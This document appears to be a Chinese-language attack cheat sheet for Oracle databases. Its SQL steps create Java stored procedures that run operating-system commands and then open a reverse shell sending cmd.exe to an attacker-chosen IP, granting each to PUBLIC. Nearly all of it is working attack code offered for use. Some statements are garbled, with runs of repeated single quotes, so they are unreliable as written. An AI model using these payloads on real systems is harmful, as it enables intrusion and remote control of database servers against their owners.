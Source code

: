 1. 创建JAVA代码
```sql
create or replace and compile java source named "Command" as import java.io.*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"\n";inBr.close();in.close();return sb;}}
```

2. 赋予代码执行权限
```sql
begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;
```

3. 创建函数
```sql
create or replace function cmd(p_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String'''''''';
```

4. 赋予函数执行权限
```sql
grant all on cmd to public
```

5. 执行命令
```sql
select sys.cmd('whoami') from dual;
```
#### 反弹shell

1. 创建java代码
```sql
create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell{public static void run() throws Exception {Socket s = new Socket("your own ip", 80);Process p = Runtime.getRuntime().exec("cmd.exe");new T(p.getInputStream(), s.getOutputStream()).start();new T(p.getErrorStream(), s.getOutputStream()).start();new T(s.getInputStream(), p.getOutputStream()).start();}static class T extends Thread {private InputStream i;private OutputStream u;public T(InputStream in, OutputStream out) {this.u = out;this.i = in;}public void run() {BufferedReader n = new BufferedReader(new InputStreamReader(i));BufferedWriter w = new BufferedWriter(new OutputStreamWriter(u));char f[] = new char[8192];int l;try {while ((l = n.read(f, 0, f.length)) > 0) {w.write(f, 0, l);w.flush();}} catch (IOException e) {}try {if (n != null)n.close();if (w != null)w.close();} catch (Exception e) {}}}}
```

2. 赋予代码执行权限
```sql
begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;
```

3. 创建函数
```sql
create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; 
```

4. 赋予函数执行权限
```sql
grant all on reversetcp to public
```

5. 执行命令
```sql
select sys.reversetcp from dual;
```

